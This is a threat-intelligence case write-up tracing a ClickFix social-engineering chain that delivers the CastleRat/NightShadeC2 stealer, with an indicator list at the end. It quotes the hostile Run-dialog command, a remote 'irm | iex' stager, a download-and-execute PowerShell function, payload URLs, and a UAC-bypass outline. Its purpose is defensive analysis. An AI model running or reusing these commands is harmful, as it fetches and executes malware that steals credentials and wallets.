

```
┌─────────────────────────────────────────────────────────────────┐
│  THREAT INTEL // CASE FILE 0x00A4                               │
│  CLASSIFICATION: PUBLIC                                          │
│  ANALYST: L. MURPHY                                              │
└─────────────────────────────────────────────────────────────────┘
```

# Chasing Ghosts
## A CastleRat Delivery Chain

> *"The net is vast and infinite."*

---

## // Prologue

Every now and then a case comes across the desk that's less about the malware and more about the **delivery**. The payload itself is loud — it stomps around the endpoint, drops files in `ProgramData`, lights up Suricata, calls home to a server in Latvia. You can build a detection rule for that in your sleep.

The *delivery*, though. That's where you see the operator.

This is one of those cases. A user got hit with what's been called **"ClickFix"** — a social-engineering pattern where the victim is convinced they're solving a CAPTCHA, but what they're really doing is **pasting an attacker-supplied command into their own Run dialog**. They become the dropper. They are the loader. The malware never had to bypass anything because the user did the bypassing for them.

Let's walk through it.

---

## // Stage 0 — The Lure

The exact lure page isn't preserved in this case, but the artifact is unmistakable. The user pasted this into `Win+R`:

```cmd
cmd.exe /c cmdkey /add:195.10.205.171 /user:guest && schtasks /Create /TN "Lowks" /XML "\\195.10.205.171\kxc\full.xml" & REM I am not a robot - Cloudflare ID: qbIohbNXJpIB7wj
```

Look at that `REM` at the end.

```
REM I am not a robot - Cloudflare ID: qbIohbNXJpIB7wj
```

That's not a comment for a developer. That's a **disguise**. The whole command is designed to look like a Cloudflare verification token when it scrolls past the user's eyes. They see the Cloudflare branding, they see "I am not a robot," and the brain auto-completes the rest. They paste. They hit Enter.

Game over. We're past the perimeter and we never had a perimeter to begin with.

---

## // Stage 1 — Credential Plant + Schtasks

The command breaks into two parts, chained with `&&`:

### Part A — `cmdkey /add`

```cmd
cmdkey /add:195.10.205.171 /user:guest
```

This stores **credentials for a remote SMB share** into Windows Credential Manager. The endpoint can now authenticate to `\\195.10.205.171\` as `guest` without prompting the user. No password is required because the share is wide open by design — it's the operator's staging server.

This is clever for one specific reason: **the next command needs SMB access**, and without `cmdkey`, Windows would throw a credential prompt at the user. That breaks the illusion. The operator knew this.

### Part B — `schtasks /Create /XML`

```cmd
schtasks /Create /TN "Lowks" /XML "\\195.10.205.171\kxc\full.xml"
```

Here's where it gets interesting. The scheduled task definition isn't *in* the command. It's pulled from a **remote SMB share** as an XML file. This is great tradecraft for a few reasons:

- The actual task content never touches disk in a normal location
- The XML can be swapped on the server without rebuilding the lure
- Defender's behavioral engines see `schtasks` running but the malicious *content* lives off-host

Inside `full.xml` is a task definition that runs the following:

```powershell
powershell -c "irm hxxps://yhofgafjle[.]com | iex"
```

Classic `IEX`-from-`Invoke-RestMethod`. Download a script, pipe it directly into the PowerShell interpreter. **No file on disk.** This is the most common LOTL pattern in 2026 and it works because the entire payload exists only in memory.

---

## // Stage 2 — The Junk Forest

The script returned by `yhofgafjle[.]com` is, on first read, **garbage**.

It's hundreds of lines of:

```powershell
$xYzAbc = "lorem"
$pPpQqq = $xYzAbc + "ipsum"
function asd0192hjkl { return $true }
$rndVar = Get-Random -Minimum 1 -Maximum 9999
```

Filler. Random variables. Dead functions. Strings that never resolve to anything useful. This is **AMSI signature dilution** — the script is padded with so much benign noise that pattern-matching engines can't easily fingerprint the malicious portion. The malicious code is in there, buried, like one specific line of dialogue in a movie full of extras.

After enough scrolling, you find it:

```powershell
function cWtdXfLUVptO {
    $ulaSVjsMmF = "https://yhofgafjle.com/maestrovsd.exe"
    $pURHzjVsUNaWGZ = "C:\Windows\Temp\TrHtWFGyRY.exe"
    Invoke-WebRequest -Uri $ulaSVjsMmF -OutFile $pURHzjVsUNaWGZ
    Start-Process -FilePath $pURHzjVsUNaWGZ
}
```

That's the whole show. Download `maestrovsd.exe`, save it as `TrHtWFGyRY.exe`, execute it. Everything else in the script is theatre.

The variable names look like keyboard-mash, and they probably are — rotating identifiers per-victim so YARA rules pivoting on string constants get nothing useful.

---

## // Stage 3 — `maestrovsd.exe` Hits the Disk

This is where the case files I had on hand finally line up with what the endpoint actually saw. The downloaded binary is a **.NET assembly**, ~150KB, compiled within a week of execution. Sandbox detonation lights it up immediately:

```
Verdict:        Malicious (100/100)
Family:         CastleRat / NightShadeC2
Tags:           rat, stealer, botnet, python, uac
First C2:       212.43.154.198:23814 (Latvia / PODAON)
```

CastleRat. Python-based RAT, has been kicking around since 2024, usually delivered through fake installers and SEO poisoning. The .NET loader is the new wrapper.

Within seconds of launch, the loader spawns **five PowerShell processes**, each with `-NoProfile`, and starts pulling additional stages from two distribution servers:

```
http://162.33.177.16/Dvizhok.zip
http://162.33.177.16/NiceNic.zip
http://162.33.177.16/either/Python.zip
http://162.33.177.16/either/install.pyc
http://162.33.177.16/either/veQcBTuTnPwMD.Ar
https://adamcold.com/NiceNic/Python.zip
https://adamcold.com/NiceNic/melody.pyc
https://adamcold.com/NiceNic/5o7dkS4S.8
```

The ZIPs are full Python runtimes — legitimate, Microsoft-signed `python.exe`, `pythonw.exe`, `python313.dll`, the works. The malware is **bringing its own interpreter**. It doesn't care what's on the host. It doesn't need it.

The Python bundles get dropped to two folders with randomized names:

```
C:\ProgramData\5171NWNrWQ\   ← Python 3.9 environment
C:\ProgramData\92WKzFYLqB\   ← Python 3.13 environment
```

And then `pythonw.exe` (the signed, legitimate binary) gets invoked against `install.pyc` and `melody.pyc`. From Defender's perspective, this is just `pythonw.exe` running a Python script. The signed-binary chain of trust holds. The malicious code is inside the `.pyc`.

This is **living-off-binaries** taken to its logical conclusion — don't abuse a Windows LOLBIN, **bring your own LOLBIN**.

---

## // Stage 4 — In-Memory C# and UAC Bypass

While the Python environment is staging, the PowerShell processes are doing something else that's worth noting. The sandbox captures `csc.exe` (the C# compiler) being spawned with `.cmdline` argument files, producing temporary `.dll` files in `%TEMP%`.

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe
    /noconfig /fullpaths @"C:\Users\admin\AppData\Local\Temp\is3na01s.cmdline"
```

This is **inline C# compilation from PowerShell** — `Add-Type -TypeDefinition $code | %{ ... }`. The script generates source code at runtime, hands it to `csc.exe`, and loads the resulting DLL. Nothing malicious-looking ever touches disk in a static, scannable form. The compiled artifact lives just long enough to do its job.

Then comes the UAC bypass. This one is the classic **`ComputerDefaults.exe` hijack** (sibling of the fodhelper technique):

```
Parent:    C:\ProgramData\92WKzFYLqB\pythonw.exe
Child:     C:\Windows\System32\ComputerDefaults.exe
Integrity: HIGH (elevated)
```

The malware modifies a specific registry key under `HKCU\Software\Classes\ms-settings\Shell\Open\command`, then triggers `ComputerDefaults.exe`. That binary is auto-elevated and reads the hijacked registry path to determine what to launch. The result: an arbitrary command running at High integrity, **no UAC prompt**, no user interaction.

I've seen this exact technique in three other cases this quarter. The detection is trivial if you know what to look for — `ComputerDefaults.exe` should *never* have a non-`explorer.exe` parent — but most baseline rulesets don't catch it.

---

## // Stage 5 — Dead Drop Resolver

Here's the part I like.

The malware doesn't have its real C2 address hardcoded. It has *this*:

```
https://steamcommunity.com/id/dpmorin49sdiw302fw
```

A Steam Community profile. The bot fetches the page, parses the profile bio, extracts an embedded string, and that string is the real C2. If the operator wants to rotate infrastructure, they edit the Steam profile.


It's beautiful. It's also infuriating to block, because `steamcommunity.com` is on every allowlist on Earth. You can't just drop traffic to it. You'd take out half the dev team's lunch break.

The resolved C2 in this case was `45.88.106.190:4545` (Netherlands, ON-LINE-DATA). The config-extractor pulled a backup C2 of `8.3.0.253` and an RC4 key:

```
596d626a6f39745634686470324c7430  →  Ymbjo9tV4hdp2Lt0
```

The key is used for encrypting the secondary stages (`5o7dkS4S.8`, `veQcBTuTnPwMD.Ar`) — those files are ~5MB and ~15MB of RC4-encrypted blobs that get decrypted and loaded in-memory by the Python payload.

The Python payload itself is **PyArmor-protected**. PyArmor is a commercial obfuscator — legitimate product, popular with people who want to ship Python apps without exposing source. Threat actors love it because it stops static `.pyc` decompilation cold. The bytecode is encrypted at rest and only decrypted in memory by the `pyarmor_runtime.pyd` companion DLL.

> Static analysis: **blind.**
> Dynamic memory dump: **everything.**

YARA rules tagged the running process dumps as **CastleRat** *and* **NightShadeC2** — these are probably the same codebase under two names, or one is a fork. The campaign infrastructure overlap suggests the former.

---

## // Stage 6 — What It Takes

The capabilities are stock stealer, executed competently:

- **Browsers** — Chrome, Edge, Firefox. Cookies, Login Data, autofill, web data. Firefox creds are decrypted via `nss3.dll` loaded directly from `C:\Program Files\Mozilla Firefox\`. The malware doesn't reimplement NSS, it just **uses the victim's installation against them**.
- **Crypto wallets** — Exodus, Electrum, Atomic, Coinomi, Jaxx, Ledger Live, Ethereum keystore, WalletWasabi. Browser extension wallets too: MetaMask (`nkbihfbeogaeaoehlefnkodbefgpgknn`), Phantom, TronLink.
- **Password managers** — 1Password, NordPass directories enumerated.
- **VPN configs** — NordVPN, ProtonVPN.
- **FTP** — Cyberduck, FileZilla.
- **Screenshots** — YARA hit on screenshot functionality across all three `pythonw.exe` memory regions.

Anything of value, it takes. The exfil channel is the resolved C2 on `:4545`.

---

## // Epilogue — The Chain, Compressed

```
[User] ──── pastes "Cloudflare CAPTCHA" command ──→ [cmd.exe]
                                                       │
                                                       ▼
                                          cmdkey + schtasks /XML
                                                       │
                                                       ▼
                                       [SMB \\195.10.205.171\kxc\full.xml]
                                                       │
                                                       ▼
                                            Scheduled Task "Lowks"
                                                       │
                                                       ▼
                                         powershell -c "irm ... | iex"
                                                       │
                                                       ▼
                                       [yhofgafjle.com — junk-padded script]
                                                       │
                                                       ▼
                                       cWtdXfLUVptO()  →  maestrovsd.exe
                                                       │
                                                       ▼
                          ┌────────────────────────────┴──────────────────────┐
                          │                                                   │
                       PowerShell                                       .NET loader
                          │                                                   │
                          ▼                                                   ▼
                    csc.exe (in-mem C#)                          Python bundle download
                          │                                                   │
                          └────────────────────────┬──────────────────────────┘
                                                   ▼
                              C:\ProgramData\{random}\pythonw.exe install.pyc
                                                   │
                                                   ▼
                                       ComputerDefaults.exe UAC bypass
                                                   │
                                                   ▼
                                  steamcommunity.com/id/... ← C2 resolver
                                                   │
                                                   ▼
                                  CastleRat / NightShadeC2 → 45.88.106.190:4545
```

Eight stages between the paste and the C2 handshake. Maybe twelve seconds of wall-clock time. The user thought they were proving they weren't a robot.

---

## // IOC Dump

### Hashes (SHA256)

| Hash | File |
|------|------|
| `e25534efbab99f08ca802c6d3974c2ff7c47ddd6e6ed71a84a94c2fddd7de4e2` | maestrovsd.exe |
| `b953bb0acb76848f889909256d67d01d44cc45d83c8bfc3421783ac0a79688fc` | install.pyc |
| `91919832f20d8fb78bab82844a430ecbe02a07df3f317316a8c34f54e3bb45c2` | melody.pyc |

### Network

| Indicator | Role |
|-----------|------|
| `195.10.205.171` | SMB staging (cmdkey target) |
| `yhofgafjle[.]com` | PowerShell stager host |
| `162.33.177.16` | Payload distribution (HTTP) |
| `adamcold[.]com` | Payload distribution (HTTPS) |
| `212.43.154.198:23814` | Initial C2 (Latvia) |
| `45.88.106.190:4545` | Resolved C2 (Netherlands) |
| `8.3.0.253` | Backup C2 |

### Dead Drop

```
steamcommunity[.]com/id/dpmorin49sdiw302fw
```

### Filesystem

```
C:\ProgramData\5171NWNrWQ\
C:\ProgramData\92WKzFYLqB\
C:\Windows\Temp\TrHtWFGyRY.exe
%LOCALAPPDATA%\NiceNickAlliceRachelCoach*
%LOCALAPPDATA%\StreamEtheriumLife*
```

### Crypto

```
RC4 key:  Ymbjo9tV4hdp2Lt0
```

### Scheduled Task

```
Name:  Lowks
XML:   \\195.10.205.171\kxc\full.xml
```


```
┌─────────────────────────────────────────────────────────────────┐
│  END OF REPORT                                                  │
│  > Stand alone. Stand together. Stay frosty.                    │
└─────────────────────────────────────────────────────────────────┘
```

---

## Related Notes
- [[ClickFix Technique Overview]]
- [[CastleRat Family Tracking]]
- [[UAC Bypass - ComputerDefaults]]
- [[Dead Drop Resolvers - Social Media C2]]
